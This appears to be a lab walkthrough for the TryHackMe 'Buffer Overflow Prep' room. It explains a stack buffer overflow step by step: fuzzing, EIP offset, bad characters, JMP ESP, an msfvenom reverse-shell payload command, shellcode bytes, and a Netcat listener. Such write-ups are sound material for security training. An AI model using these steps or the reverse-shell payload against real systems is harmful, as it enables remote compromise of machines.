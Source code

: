 # Stack Based Buffer Overflow Walkthrough
I will be using Tib3rius's Buffer Overflow Prep on TryHackMe for practise.
Link to room: https://tryhackme.com/room/bufferoverflowprep

## Mona Configuration
Run the following command on Immunity Debugger to make the process easier:
```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing
1. Open the application you are targetting on Immunity Debugger and hit start
2. Run `fuzzer.py` to identify the point that causes the application to crash
3. Note down the crash point of the application

## Offset
To identify the offset to the EIP address, we can generate a string with the pattern_create module from Metasploit.
Add 40 to the crash point found. 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash point + 40]
```
Then,
1. Copy the output and place it in the payload variable of `exploit.py`.
2. Run the script and it should crash the application again.
3. Change the distance to the same length of the pattern you created and run the command on Immunity Debugger:
```
!mona findmsp -distance  [crash point + 40]
```
Mona will display the output of the command, or click "Window" menu and then "Log data" to view it.
Find a line that states `EIP contains normal pattern : ... (offset XXXX)`
Note down the offset and make the following changes to `exploit.py` script:
1. Update the offset variable
2. Set the payload variable to an empty string
3. Set the retn variable to `BBBB`

Restart the application in Immunity Debugger and run the modified script.
The EIP register should now be overwritten with B's: `42424242`

## Finding Bad Characters
Using Mona, we can generate a byte array and exclude the null byte,`\x00`, by default.
Execute the following command:
```
!mona bytearray -b "\x00"
```
Then, follow these steps:
1. Execute `badchars.py` to generate a string of bad chars from `\x01 to \xff`.
2. Update `exploit.py` and set the payload variable to the string created.
3. Restart the application in Immunity Debugger and run the script again.
4. Copy the address to which the ESP register points and use it in the following command:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A mona Memory comparison results window will appear indicating the characters that are different in memory to what they are in the generated `bytearray.bin` file.
Not all of these might be bad characters as sometimes:
1. Bad characters cause the next byte to get corrupted
2. Bad characters cause the rest of the string to get corrupted

Make a note of the bad characters and do the following:
1. Generate a new byte array in mona, specifying these new bad characters along with `\x00`
2. Remove the new bad characters in the payload variable in exploit.py

Restart the application in Immunity Debugger and run the script again.
Repeat the process until the results status returns `Unmodified`. This indicates that there are no more bad characters.

## Finding a JMP point

Run the following command in Immunity Debugger with the application running or in a crashed state.
Ensure that all the bad characters identified are added in.
```
!mona jmp -r esp -cpb "\x00"
```
The results should display in the 'Log data' window. Choose an address and update it in `exploit.py` by setting the `retn` variable to the address written backwards.
For example, if the address found is `\x01\x02\x03\x04`, write `\x04\x03\x02\x01` in `exploit.py`.

## Generate a Payload
We can finally generate our shellcode excluding the bad characters found:
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
Insert the string added to the payload variable in `exploit.py` in the following format:
```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
Ensure to place an open bracket at the start, and a close bracket at the end.

## Prepend NOPs
An encoder was used to generate the payload. Thus, some space in memory is needed for the payload to unpack itself. Ensure this happens by assigning the following string to the padding variable:
```
padding = "\x90" * 16
```

## Exploit
1. Start a Netcat listener on Kali
2. Restart the application in Immunity Debugger
3. Run `exploit.py`

You should catch a reverse shell!
